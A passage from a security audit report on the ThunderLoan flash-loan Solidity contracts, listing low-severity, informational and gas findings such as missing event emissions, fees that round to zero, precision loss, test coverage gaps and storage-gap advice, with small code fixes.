11:     function __Oracle_init(address poolFactoryAddress) internal onlyInitializing {

```

```javascript
File: src/protocol/ThunderLoan.sol

138:     function initialize(address tswapAddress) external initializer {

138:     function initialize(address tswapAddress) external initializer {

139:         __Ownable_init();

140:         __UUPSUpgradeable_init();

141:         __Oracle_init(tswapAddress);

```

### [L-2] Missing critial event emissions

**Description:** When the `ThunderLoan::s_flashLoanFee` is updated, there is no event emitted. 

**Recommended Mitigation:** Emit an event when the `ThunderLoan::s_flashLoanFee` is updated.

```diff 
+    event FlashLoanFeeUpdated(uint256 newFee);
.
.
.
    function updateFlashLoanFee(uint256 newFee) external onlyOwner {
        if (newFee > s_feePrecision) {
            revert ThunderLoan__BadNewFee();
        }
        s_flashLoanFee = newFee;
+       emit FlashLoanFeeUpdated(newFee); 
    }
```

### [L-3] getCalculatedFee can be 0

**Description:** getCalculatedFee can be as low as 0

**Impact:** Low as this amount is really small. 

**Proof of Concept:** Any value up to 333 for "amount" can result in 0 fee based on calculation
```javascript
    function testFuzzGetCalculatedFee() public {
        AssetToken asset = thunderLoan.getAssetFromToken(tokenA);

        uint256 calculatedFee = thunderLoan.getCalculatedFee(
            tokenA,
            333
        );

        assertEq(calculatedFee ,0);

        console.log(calculatedFee);
    }
```

**Recommended Mitigation:** A minimum fee can be used to offset the calculation, though it is not that important.

### [L-4] Mathematic Operations Handled Without Precision in getCalculatedFee() Function in ThunderLoan.sol

**Description:** In a manual review of the ThunderLoan.sol contract, it was discovered that the mathematical operations within the getCalculatedFee() function do not handle precision appropriately. Specifically, the calculations in this function could lead to precision loss when processing fees. This issue is of low priority but may impact the accuracy of fee calculations.

**Impact:** This issue is assessed as low impact. While the contract continues to operate correctly, the precision loss during fee calculations could affect the final fee amounts. This discrepancy may result in fees that are marginally different from the expected values.

**Proof of Concept:** The identified problem revolves around the handling of mathematical operations in the getCalculatedFee() function. The code snippet below is the source of concern:

```javascript
uint256 valueOfBorrowedToken = (amount * getPriceInWeth(address(token))) / s_feePrecision;
fee = (valueOfBorrowedToken * s_flashLoanFee) / s_feePrecision;
```

The above code, as currently structured, may lead to precision loss during the fee calculation process, potentially causing accumulated fees to be lower than expected.

**Recommended Mitigation:** To mitigate the risk of precision loss during fee calculations, it is recommended to handle mathematical operations differently within the getCalculatedFee() function. One of the following actions should be taken:

Change the order of operations to perform multiplication before division. This reordering can help maintain precision.
Utilize a specialized library, such as math.sol, designed to handle mathematical operations without precision loss.
By implementing one of these recommendations, the accuracy of fee calculations can be improved, ensuring that fees align more closely with expected values.


## Informational
### [I-1] Empty Function Body - Consider commenting why

*Instances (1)*:
```javascript
File: src/protocol/ThunderLoan.sol

261:     function _authorizeUpgrade(address newImplementation) internal override onlyOwner { }

```

### [I-2] Poor Test Coverage

```javascript
Running Tests...
| File                                         | % Lines         | % Statements     | % Branches     | % Funcs        |
|----------------------------------------------|-----------------|------------------|----------------|----------------|
| script/DeployThunderLoan.s.sol               | 0.00% (0/4)     | 0.00% (0/5)      | 100.00% (0/0)  | 0.00% (0/1)    |
| src/protocol/AssetToken.sol                  | 76.47% (13/17)  | 80.95% (17/21)   | 50.00% (3/6)   | 77.78% (7/9)   |
| src/protocol/OracleUpgradeable.sol           | 100.00% (6/6)   | 100.00% (9/9)    | 100.00% (0/0)  | 80.00% (4/5)   |
| src/protocol/ThunderLoan.sol                 | 60.87% (42/69)  | 65.52% (57/87)   | 40.00% (8/20)  | 52.94% (9/17)  |
| src/upgradedProtocol/ThunderLoanUpgraded.sol | 0.00% (0/67)    | 0.00% (0/85)     | 0.00% (0/20)   | 0.00% (0/16)   |
| test/mocks/BuffMockPoolFactory.sol           | 0.00% (0/12)    | 0.00% (0/17)     | 0.00% (0/2)    | 0.00% (0/4)    |
| test/mocks/BuffMockTSwap.sol                 | 0.00% (0/72)    | 0.00% (0/97)     | 0.00% (0/24)   | 0.00% (0/22)   |
| test/mocks/ERC20Mock.sol                     | 50.00% (1/2)    | 50.00% (1/2)     | 100.00% (0/0)  | 33.33% (1/3)   |
| test/mocks/MockFlashLoanReceiver.sol         | 64.29% (9/14)   | 64.29% (9/14)    | 50.00% (2/4)   | 75.00% (3/4)   |
| test/mocks/MockPoolFactory.sol               | 85.71% (6/7)    | 90.00% (9/10)    | 50.00% (1/2)   | 100.00% (2/2)  |
| test/mocks/MockTSwapPool.sol                 | 100.00% (1/1)   | 100.00% (1/1)    | 100.00% (0/0)  | 100.00% (1/1)  |
| test/unit/BaseTest.t.sol                     | 100.00% (8/8)   | 100.00% (8/8)    | 100.00% (0/0)  | 100.00% (1/1)  |
| Total                                        | 30.82% (86/279) | 31.18% (111/356) | 17.95% (14/78) | 32.94% (28/85) |
```

### [I-3] Not using `__gap[50]` for future storage collision mitigation

### [I-4] Different decimals may cause confusion

**Description:** example- AssetToken has 18, but asset has 6.

### [I-5] Doesn't follow https://eips.ethereum.org/EIPS/eip-3156

**Recommended Mitigation:** Aim to get test coverage up to over 90% for all files. 

## Gas 
### [GAS-1] Using bools for storage incurs overhead
Use `uint256(1)` and `uint256(2)` for true/false to avoid a Gwarmaccess (100 gas), and to avoid Gsset (20000 gas) when changing from ‘false’ to ‘true’, after having been ‘true’ in the past. See [source](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/58f635312aa21f947cae5f8578638a85aa2519f5/contracts/security/ReentrancyGuard.sol#L23-L27).

*Instances (1)*:
```solidity
File: src/protocol/ThunderLoan.sol

98:     mapping(IERC20 token => bool currentlyFlashLoaning) private s_currentlyFlashLoaning;

```

### [GAS-2] Using `private` rather than `public` for constants, saves gas
If needed, the values can be read from the verified contract source code, or if there are multiple values there can be a single getter function that [returns a tuple](https://github.com/code-423n4/2022-08-frax/blob/90f55a9ce4e25bceed3a74290b854341d8de6afa/src/contracts/FraxlendPair.sol#L156-L178) of the values of all currently-public constants. Saves **3406-3606 gas** in deployment gas due to the compiler not having to create non-payable getter functions for deployment calldata, not having to store the bytes of the value outside of where it's used, and not adding another entry to the method ID table

*Instances (3)*:
```solidity
File: src/protocol/AssetToken.sol

25:     uint256 public constant EXCHANGE_RATE_PRECISION = 1e18;

```

```solidity
File: src/protocol/ThunderLoan.sol

95:     uint256 public constant FLASH_LOAN_FEE = 3e15; // 0.3% ETH fee

96:     uint256 public constant FEE_PRECISION = 1e18;

```

### [GAS-3] Unnecessary SLOAD when logging new exchange rate

In `AssetToken::updateExchangeRate`, after writing the `newExchangeRate` to storage, the function reads the value from storage again to log it in the `ExchangeRateUpdated` event. 

To avoid the unnecessary SLOAD, you can log the value of `newExchangeRate`.

```diff
  s_exchangeRate = newExchangeRate;
- emit ExchangeRateUpdated(s_exchangeRate);
+ emit ExchangeRateUpdated(newExchangeRate);
```